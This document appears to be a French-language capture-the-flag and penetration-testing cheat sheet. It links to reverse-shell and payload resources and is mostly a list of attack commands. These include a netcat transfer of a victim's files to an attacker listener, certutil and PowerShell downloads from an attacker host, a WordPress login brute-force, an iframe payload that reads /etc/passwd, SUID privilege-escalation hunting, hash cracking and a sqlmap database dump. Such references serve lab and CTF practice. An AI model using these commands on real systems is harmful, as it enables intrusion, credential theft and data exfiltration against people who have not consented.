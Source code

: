 ```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

[ENUM] linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
[ENUM] winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

[SHELL] Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
[SHELL] Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
[SHELL] Reverse Shells : https://www.revshells.com/ <br>
[SHELL] Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

[MISC] subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
[MISC] Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
[MISC] PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
[MISC] Binaries exploit : https://gtfobins.github.io/ <br>


-------------------------------------------------------------------------------------------------------------------------------------------+
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => WORDPRESS TOOL           - wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>

```
-------------------------------------------------------------------------------------------------------------------------------------------+
```

[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](ENUM)      => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](ENUM)      => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                   smbclient //<ip>/anonymous (-U pour un utilisateurs)
                   smbget -R smb://<ip>/anonymous
[CMD](ENUM)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)

[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](AD)*PS*    => Set-ADAccountPassword <user> -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
[CMD](AD)*PS*    => Set-ADUser -ChangePasswordAtLogon $true -Identity <user> -Verbose

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe


```
-------------------------------------------------------------------------------------------------------------------------------------------+
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
<br>

